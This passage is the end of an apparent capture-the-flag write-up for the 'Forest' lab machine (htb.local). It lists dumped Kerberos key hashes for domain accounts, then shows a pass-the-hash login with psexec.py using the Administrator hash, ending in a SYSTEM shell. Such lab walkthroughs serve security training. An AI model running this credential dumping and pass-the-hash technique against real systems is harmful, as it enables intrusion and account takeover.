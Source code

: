      htb.local\HealthMailbox7108a4e:aes256-cts-hmac-sha1-96:64aeffda174c5dba9a41d465460e2d90aeb9dd2fa511e96b747e9cf9742c75bd
     htb.local\HealthMailbox7108a4e:aes128-cts-hmac-sha1-96:98a0734ba6ef3e6581907151b96e9f36
     htb.local\HealthMailbox7108a4e:des-cbc-md5:a7ce0446ce31aefb
     htb.local\HealthMailbox0659cc1:aes256-cts-hmac-sha1-96:a5a6e4e0ddbc02485d6c83a4fe4de4738409d6a8f9a5d763d69dcef633cbd40c
     htb.local\HealthMailbox0659cc1:aes128-cts-hmac-sha1-96:8e6977e972dfc154f0ea50e2fd52bfa3
     htb.local\HealthMailbox0659cc1:des-cbc-md5:e35b497a13628054
     htb.local\sebastien:aes256-cts-hmac-sha1-96:fa87efc1dcc0204efb0870cf5af01ddbb00aefed27a1bf80464e77566b543161
     htb.local\sebastien:aes128-cts-hmac-sha1-96:18574c6ae9e20c558821179a107c943a
     htb.local\sebastien:des-cbc-md5:702a3445e0d65b58
     htb.local\lucinda:aes256-cts-hmac-sha1-96:acd2f13c2bf8c8fca7bf036e59c1f1fefb6d087dbb97ff0428ab0972011067d5
     htb.local\lucinda:aes128-cts-hmac-sha1-96:fc50c737058b2dcc4311b245ed0b2fad
     htb.local\lucinda:des-cbc-md5:a13bb56bd043a2ce
     htb.local\svc-alfresco:aes256-cts-hmac-sha1-96:46c50e6cc9376c2c1738d342ed813a7ffc4f42817e2e37d7b5bd426726782f32
     htb.local\svc-alfresco:aes128-cts-hmac-sha1-96:e40b14320b9af95742f9799f45f2f2ea
     htb.local\svc-alfresco:des-cbc-md5:014ac86d0b98294a
     htb.local\andy:aes256-cts-hmac-sha1-96:ca2c2bb033cb703182af74e45a1c7780858bcbff1406a6be2de63b01aa3de94f
     htb.local\andy:aes128-cts-hmac-sha1-96:606007308c9987fb10347729ebe18ff6
     htb.local\andy:des-cbc-md5:a2ab5eef017fb9da
     htb.local\mark:aes256-cts-hmac-sha1-96:9d306f169888c71fa26f692a756b4113bf2f0b6c666a99095aa86f7c607345f6
     htb.local\mark:aes128-cts-hmac-sha1-96:a2883fccedb4cf688c4d6f608ddf0b81
     htb.local\mark:des-cbc-md5:b5dff1f40b8f3be9
     htb.local\santi:aes256-cts-hmac-sha1-96:8a0b0b2a61e9189cd97dd1d9042e80abe274814b5ff2f15878afe46234fb1427
     htb.local\santi:aes128-cts-hmac-sha1-96:cbf9c843a3d9b718952898bdcce60c25
     htb.local\santi:des-cbc-md5:4075ad528ab9e5fd
     FOREST$:aes256-cts-hmac-sha1-96:6c999efa33443fd3eed29c97956db050aad6d3cfdefab4be5ec6f2613a540df9
     FOREST$:aes128-cts-hmac-sha1-96:7942e324a9af815c00545e9883b3b350
     FOREST$:des-cbc-md5:f27c07109798d6ce
     EXCH01$:aes256-cts-hmac-sha1-96:1a87f882a1ab851ce15a5e1f48005de99995f2da482837d49f16806099dd85b6
     EXCH01$:aes128-cts-hmac-sha1-96:9ceffb340a70b055304c3cd0583edf4e
     EXCH01$:des-cbc-md5:8c45f44c16975129
     [*] Cleaning up...

    Login using the admin hash with psexec.py

     kali@kali:~/Desktop/tools/win/evil-winrm$ psexec.py -hashes aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6 htb.local/Administrator@10.10.10.161
     Impacket v0.9.21 - Copyright 2020 SecureAuth Corporation

     [*] Requesting shares on 10.10.10.161.....
     [*] Found writable share ADMIN$
     [*] Uploading file WzSRurMN.exe
     [*] Opening SVCManager on 10.10.10.161.....
     [*] Creating service TOOR on 10.10.10.161.....
     [*] Starting service TOOR.....
     [!] Press help for extra shell commands
     Microsoft Windows [Version 10.0.14393]
     (c) 2016 Microsoft Corporation. All rights reserved.

     C:\Windows\system32>whoami
     nt authority\system

And we are Administrator.

